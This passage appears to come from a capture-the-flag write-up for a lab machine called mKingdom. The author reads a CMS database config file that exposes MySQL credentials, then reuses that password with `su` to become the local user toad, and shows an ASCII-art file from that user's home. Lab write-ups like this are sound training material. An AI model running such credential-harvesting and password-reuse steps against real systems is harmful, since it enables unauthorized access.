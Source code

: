 poking around the app directory

```
cat /var/www/html/app/castle/application/config/database.php
```

```
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
```

SQL credentials for database mKingdom

```
toad
toadisthebest
```

but the credentials also work for the toad user

```
su toad
toadisthebest
```

/home/toad/smb.txt

```
Save them all Mario!

                                      \| /
                    ....'''.           |/
             .''''''        '.       \ |
             '.     ..     ..''''.    \| /
              '...''  '..''     .'     |/
     .sSSs.             '..   ..'    \ |
    .P'  `Y.               '''        \| /
    SS    SS                           |/
    SS    SS                           |
    SS  .sSSs.                       .===.
    SS .P'  `Y.                      | ? |
    SS SS    SS                      `==='
    SS ""    SS
    P.sSSs.  SS
    .P'  `Y. SS
    SS    SS SS                 .===..===..===..===.
    SS    SS SS                 |   || ? ||   ||   |
    ""    SS SS            .===.`==='`==='`==='`==='
  .sSSs.  SS SS            |   |
 .P'  `Y. SS SS       .===.`==='
 SS    SS SS SS       |   |
 SS    SS SS SS       `==='
SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS

toad@mkingdom:~$ 
```